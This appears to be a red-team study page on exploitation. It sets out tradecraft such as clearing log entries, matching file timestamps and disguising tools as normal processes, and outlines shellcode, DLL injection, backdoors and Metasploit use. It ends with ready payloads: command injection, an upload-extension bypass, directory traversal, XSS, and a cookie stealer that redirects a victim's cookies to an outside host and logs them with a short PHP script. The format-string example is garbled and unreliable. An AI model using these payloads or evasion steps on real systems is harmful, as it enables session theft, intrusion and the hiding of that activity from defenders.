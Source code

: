 +++
title = "Exploitation"
weight = 2
+++

## The Basics

* Determining potential security posture
	* Are they using an up to date OS?
	* What kind of personal security products are installed?
	* Are they using a free antivirus tool, or are they using an enterprise-based commercial antivirus tool?
	* Is the system patched up to date?
	* Is there a bunch of bloatware? Or is the box rather Spartan, as a corporate load should typically be?
* Tradecraft Rules
	1. Rule #1: Do No Harm
		* Never leave a target's equipment less secure than when you found it
		* Do not patch vulnerable software or install defensive tools such as wireshark or nmap
		* Never knowingly disrupt a target's network or system without express permission from a competent authority
		* This is not your personal computer.
	2. Rule #2: No packets directly between source and target
	3. Rule #3: Have a clue
		* Always have a plan and a goal
		* Execute your operation quietly
		* Know when to get help
	4. Rule #4: Do not scan everything under the Sun
		* Noise kills
	5. Rule #5: Upload wisely
		* Upload only what you need
		* Use single binaries
		* Do not use public packages
	6. Rule #6: Clean your logs
		* Do not remove every log
		* Clean only entries related to your activity
		* Reset file time to last entry
	7. Rule #7: Practice and don't run untested tools
		* Never practice on a live system
		* Review all code before running, even in a lab
	8. Rule #8: Situational Awareness
		* Always be concerned about compromising your tools, techniques, and methods
	9. Rule #9: Check yourself, before you wreck yourself
		* Check your ego at the door
		* Ask for help if you need it
* Exfiltration Strategies
	* Port targeting
		* Blend in with environment
	* Redirector selection
		* Ports should make sense (80, 443, 25, etc)
		* Firewalls, proxies, and other systems may affect traffic on these ports
		* Avoid these ports:
			* 135 & 445 (NetBIOS, SMB)
			* 1433 and other SQL ports
			* 6667 (IRC)
			* 666, 1337, 4444, 6666, 31337, 12345 (Known malware, hacking activity)
		* Consider geographic factors of redirector
	* File manipulation
		* Match the modified time to other files
		* Name your tools to resemble normal processes
	* Cleaning up
		* Remove temporary files, tools, tool generated logs, etc
		* Did you schedule a job in Windows? If so, it was probably logged. Delete those logs.
		* Did you substitute user (su) on a UNIX system? If so, it was probably logged. Remove those entries.
		* Did you cause a core dump or a mini-dump? If so, delete those dump files.
		* Are you responsible for any hanging processes? If so, kill those processes.
		* Clean the prefetch directory
* Exploitation through tunnels
	* Additional considerations need to be taken into account, such as latency
	* Not all tools will work through a tunnel the same way
	* Don't forget to change "RPORT" to the tunnel redirector!
* Privilege Escalation Rules to remember
	* Never escalate to a critical process unless you know what you are doing
	* Know your privileges (flags)
	* User processes go away when a user logs off
* Shellcode
	* Written in Assembly code
	* Techniques
		* Find socket
			* Uses an existing connection between you and the target
		* Reverse shell
		* Port binding
		* Command execution
			* Useful when you do not need a network connection
		* File transfer
		* Multi-stage
		* Syscall proxy
			* Requires few processes and network connections
			* Allows access to core OS functions
			* Executes in a loop, strings together requests
			* Usually part of a framework type of application
		* Process injection
* Code Injection
	* Overflow Types
		* Buffer
			* Stack
			* Heap
		* Integer
		* Off-by-one Error
	* Heap Spraying
		* Not an exploit method
		* Payload delivery technique
	* DLL Injection
		* Windows Hooking
			* Calls code when a specific event occurs
			* Commonly used for Keylogging
		* AppInit Key
			* Runs with user32.dll
		* CreateRemoteThread Function
			* Injects DLL into running process
		* Reflective DLL Injection
			* Injects a loader in the process
			* Advantages:
				* Not registered or listed in process modules
				* No hooking
				* Fileless
			* Can be found in memory forensics
		* DLL Path Hijacking
			* Search-order hijacking
	* Countermeasures
		* Endpoint Security - Hook into functions typically used for injection
		* Code signing
* Backdoor Methods
	* Batch files/init scripts
	* Autorun keys
	* AppInit Key
		* DLL injection
	* Trojan Application
	* Install as a Service
	* Load as a driver
* Metasploit
	* Some local commands can be ran from the framework console
	* /usr/share/metasploit-framework/
	* Payloads
		* Bind - Shell connects directly to victim
		* Reverse - Victim calls back to you
	* "DisablePayloadHandler"
		* Prevents MS from automatically attempting to connect the payload
		* You can then use exploit/multi/handler to "call forward"
* Masquerades
	* Logging into a remote access service with valid credentials that are not yours
* Implants
	* Backdoor
		* Requires the operator to connect to it
		* May require 2 tunnels, both a forward and reverse. One for the trigger packet and one for the callback.
	* Beacon
		* Periodically attempts to initiate a connection to the operator


## Some Easy Exploits

### Non-secure C

Takes advantage of a poorly written application.

First %s is taken as input then our code executes independently. Using this method
you could print sensitive values that may only be normally accessible by the application.

```
%s%sprintf(password)%s
```

### Web

#### Code Injection (for input that will be processed directly in a shell)

`<normal input> & <command>`

### IIS 6, circumvent file extension validation

Add `;.jpg` (or other valid ext) to file being uploaded

### PHP Directory Traversal

`index.php?page=./../../../file`

#### Cookies

`<script>window.location='http://10.1.1.1/?'+document.cookie;</script>`

#### Simple Cookie Stealer

##### Host

```
<?php
$cookie=$_GET["cookie"];
$log=fopen("log.txt", “a”);
fwrite($log, $cookie ."\n");
fclose($log);
?>
```

##### Phish

```
[url]=<script>window.location='my_url/cookie_stealer.php?cookie='%2bdocument.cookie;</script>
```

#### XSS

1. Find vulns in page such as `<url>?search=`
2. Test input for sanitation
3. Exploit!

```
<script>[command]("[code]");</script>
Ex: http://www.google.com/page.html?default=<script>alert("Hacked!");</script>
```
